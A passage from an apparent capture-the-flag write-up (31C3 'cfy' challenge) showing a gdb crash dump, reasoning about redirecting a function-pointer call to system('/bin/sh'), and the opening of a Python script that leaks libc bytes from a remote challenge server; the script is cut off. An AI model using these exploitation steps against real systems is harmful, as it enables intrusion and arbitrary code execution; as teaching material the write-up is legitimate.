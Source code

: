 ```bash
RDX: 0x6010e0 ('a' <repeats 52 times>, "\n")
RSI: 0x7ffff7ff7035 --> 0x0 
RDI: 0x6010e0 ('a' <repeats 52 times>, "\n")
RBP: 0x7fffffffe4b0 --> 0x0 
RSP: 0x7fffffffe4a0 --> 0x7ffffe590 
...snip...
[-------------------------------------code-------------------------------------]
   0x4008b3 <main+167>: add    rax,0x601080
   0x4008b9 <main+173>: mov    rax,QWORD PTR [rax]
   0x4008bc <main+176>: mov    edi,0x6010e0
=> 0x4008c1 <main+181>: call   rax
   0x4008c3 <main+183>: mov    QWORD PTR [rbp-0x8],rax
   0x4008c7 <main+187>: mov    rax,QWORD PTR [rbp-0x8]
   0x4008cb <main+191>: mov    rsi,rax
   0x4008ce <main+194>: mov    edi,0x400a3d
Guessed arguments:
arg[0]: 0x6010e0 ('a' <repeats 52 times>, "\n")
..snip...
Legend: code, data, rodata, value
Stopped reason: SIGSEGV
0x00000000004008c1 in main ()
```

Excellent. Now what pointer should we store in `buf`? I couldn't make a ROP chain, for I had no control over the stack. The obvious thing to do was to return to `system()` with `/bin/sh` as argument. But where was `system()` located?

I had no idea what `libc` version was running. I did have an arbitrary read primitive though. I had downloaded `libc-2.19` and from the addresses of `printf` and `puts` (both available in the GOT) I deduced that this *wasn't* the correct version. However, I decided to scan the remote binary's libc for signature bytes of `system()`. I assumed it started with these bytes:

```
bas@tritonal:~/tmp/31c3/cfy$ gdb ./libc-2.19.so 
GNU gdb (GDB) 7.4.1-debian
...snip...
gdb-peda$ x/8b system
0x46530 <system>:   0x48    0x85    0xff    0x74    0xb 0xe9    0x26    0xfb
```

So I wrote a small scanner in python. This scanner will dump bytes from libc, searching for `ff85` in the output. 

```python
#!/usr/bin/python

import struct, time, re

def p(x):
    return struct.pack("L", x)

payload = ""
payload += "2\n"
payload += p(0x601020)  # printf
payload += "\n"

import socket
s=socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect(('188.40.18.73', 3313))

print s.recv(1025)
s.send(payload)
time.sleep(1.5)
data = s.recv(1000)

PRINTF = -1
```